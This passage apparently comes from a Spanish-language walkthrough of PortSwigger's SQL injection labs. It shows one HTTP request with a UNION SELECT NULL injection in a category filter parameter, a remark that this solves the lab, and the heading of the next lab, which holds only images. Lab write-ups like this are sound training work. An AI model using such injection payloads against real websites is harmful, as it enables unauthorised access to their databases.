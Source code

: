 Selecciono todas

```null
GET /filter?category=Pets'+union+select+NULL,NULL,NULL--+- HTTP/2
```

<img src="/img/articulos/sqli-portswigger/12.png" alt="">

Con esto bastaría para resolver el laboratorio

<img src="/img/articulos/sqli-portswigger/13.png" alt="">

# LAB4

* **Instrucciones**

<img src="/img/articulos/sqli-portswigger/14.png" alt="">
